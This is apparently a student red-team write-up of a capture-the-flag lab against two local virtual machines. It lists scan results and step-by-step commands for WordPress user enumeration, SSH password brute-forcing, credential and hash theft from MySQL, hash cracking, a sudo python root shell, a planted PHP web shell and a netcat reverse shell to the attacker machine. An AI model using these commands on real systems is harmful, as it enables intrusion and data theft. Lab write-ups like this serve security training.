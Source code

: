 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

`$ nmap -sV -O 192.168.1.110`

![Initial Nmap Scan](Images/InitialNmapScan.png "Nmap Scan")

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP: OpenSSH 6.7p1
  - Port 80/TCP: Apache web server 2.4.10
  - Port 111/TCP: rpcbind 2-4
  - Port 139/TCP: Samba smbd 3-4
  - Port 445/TCP: Samba smbd 3-4

The following vulnerabilities were identified:
- Target 1
  - Wordpress server is vulnerable to user enumeration
  - Wordpress and ssh server have weak passwords
  - MySQL password is stored in plain text
  - Wordpress hashes are stored unsalted
  - Steven user account has sudo permissions for Python

`$ nmap -sV -O 192.168.1.115`

![Initial Nmap Scan](Images/Target2Nmap.png "Nmap Scan")

  This scan identifies the services below as potential points of entry:
- Target 2
  - Port 22/TCP: OpenSSH 6.7p1
  - Port 80/TCP: Apache web server 2.4.10
  - Port 111/TCP: rpcbind 2-4
  - Port 139/TCP: Samba smbd 3-4
  - Port 445/TCP: Samba smbd 3-4

The following vulnerabilities were identified:
- Target 2
---------------------------------------------COMPLETE

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1`: flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - Start with a user enumeration of the Wordpress website using Wpscan
        - `wpscan --url http://192.168.1.110/wordpress --enumerate u`
        - ![WPScan](Images/Wpscan.png "WPScan")
      - Using the ssh module in Metasploit we will break into Michael's account
        - `msfconsole`
        - `search ssh`
        - `use auxiliary/scanner/ssh/ssh_login`
        - `show options`
        - `set username michael`
        - `set user_as_pass true`
        - `set pass_file /usr/share/wordlists/rockyou.txt`
        - `set rhosts 192.168.1.110`
        - `set rport 22`
        - `set stop_on_success true`
        - ![Metasploit](Images/Metasploit.png "Metasploit SSH Cracker") 
        - Michael's password is michael
      - Now that we have access to Michael's account we ssh in and search the website filed for the first flag
        - `ssh michael@192.168.1.110`
        - `cd /var/www/html`
        - `grep -nr 'flag1'`
        - ![flag1](Images/flag1.png "First flag") 
  - `flag2`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - We have the ssh login for Michael from the first flag so we login with that again and run a find command to locate any files named flag
        - `ssh michael@192.168.1.110`
        - `find / -iname '*flag*' -type f -print 2>/dev/null`
        - ![flag2 location](Images/flag2Location.png "Second flag location") 
        - We now know it is stored in /var/www/flag2.txt
        - `cat /var/www/flag2.txt`
        - ![flag2](Images/flag2.png "Second flag") 
  - `flag3`: flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - We are going to locate the password to the MySQL server and than search the database for the next flag
        - `ssh michael@192.168.1.110`
        - `cd /var/www/html/wordpress`
        - `cat wp-config.php`
        - ![MySQL Login Info](Images/MySQL_Login.png "MySQL Login Info")
        - We now know that the MySQL username is `root` with `R@v3nSecurity` as the password so now we will login to the database and search it for the flag
        - `mysql -u root -pR@v3nSecurity`
        - `use wordpress;`
        - `show tables;`
        - ![MySQL Tables](Images/MySQL_Tables.png "MySQL Tables")
        - `describe wp_posts;`
        - ![MySQL wp_posts](Images/MySQL_wp_posts.png "MySQL wp_posts")
        - `select post_content from wp_posts where post_content like '%flag%';`
        - ![Flag 3 and 4](Images/flag3and4.png "Flag 3 and 4")
        - This gives us the third and fourth flag but we will continue to escalate privileges to root regardless to demonstrate how to do it

  - `flag4`: flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - We will be finding the password hash for the steven user account and cracking it than using the steven user permissions to create a root shell and find the last flag
      - `ssh michael@192.168.1.110`
      - `mysql -u root -pR@v3nSecurity`
      - `select * from wp_users;`
      - ![MySQL wp_users](Images/MySQL_wp_users.png "MySQL wp_users")
      - Now we take the hashes that we found in the wp_users table and we put them into a text file to be cracked using John the Ripper
      - `john MySQL_Hashes.txt --wordlist="/usr/share/wordlists/rockyou.txt"`
      - `john --show MySQL_Hashes.txt`
      - ![Steven's Password](Images/StevensPassword.png "Steven's Password")
      - Now we login to the ssh account using Steven's account
      - `ssh steven@192.168.1.110`
      - We have to check the permissions of Steven's account
      - `sudo -l`
      - ![Steven's Permissions](Images/StevensPerms.png "Steven's Permissions")
      - We now know that Steven can use sudo permissions for python so now we can exploit this by spawning a root bash shell
      - `sudo python -c 'import pty; pty.spawn("/bin/bash")'`
      - Now we run another seach for a flag file now that we have root permissions
      - `find / -iname '*flag*' -type f`
      - ![Flag 4 Location](Images/flag4Location.png "Flag 4 Location")
      - `cat /root/flag4.txt`
      - ![Flag 4](Images/flag4.png "Flag 4")

- Target 2
    - `flag1`: flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}
    - **Exploit Used**
      - We will use gobuster to enumerate the website
        - `gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://192.168.1.115/`
        - ![Target 2 Gobuster Scan](Images/Target2Gobuster.png "Target 2 Gobuster Scan")
        - After further inspecting the option we choose to check out the /vendor directory
        - ![Target 2 Vendor Directory](Images/Target2Vendor.png "Target 2 Vendor Directory")
        - Visiting the Path file shows the first flag
        - ![Target 2 Flag 1](Images/Target2Flag1.png "Target 2 Flag 1")
    - `flag2`: flag2{6a8ed560f0b5358ecf844108048eb337}
    - **Exploit Used**
      - We will exploit the insecure webserver and upload a backdoor to give us a bash shell on the target machine
        - We take this [exploit.sh](exploit.sh) and run it to place a backdoor onto the target webserver
        - To test that the exploit worked we visit `view-source:http://192.168.1.115/backdoor.php?cmd=whoami`
        - ![Target 2 Exploit Test](Images/Target2ExploitTest.png "Target 2 Exploit Test")
      - Next step is starting a netcat listener on the kali machine
        - `nc -lnvp 4444`
      - Than we use the backdoor file to connect the target computer to our kali machine by visiting this url
        - `http://192.168.1.115/backdoor.php?cmd=nc%20192.168.1.90%204444%20-e%20/bin/bash`
      - Now that we have a shell spawned on the target machine we will run a find command for the second flag
        - `find / -iname '*flag*' -type -f`
        - ![Target 2 Flag 2 and 3](Images/Target2Flag2.png "Target 2 Flag 2 and 3")
        - This gives us the second flag and the location of the third flag
    - `flag3`: flag3{a0f568aa9de277887f37730d71520d9b}
    - **Exploit Used**
      - From the find command used to locate the second command we know the location of the third flag as well
        - ![Target 2 Flag 2 and 3](Images/Target2Flag2.png "Target 2 Flag 2 and 3")
        - We can now visit http://192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png to see the third flag
        - ![Target 2 Flag 3](Images/Target2Flag3.png "Target 2 Flag 3")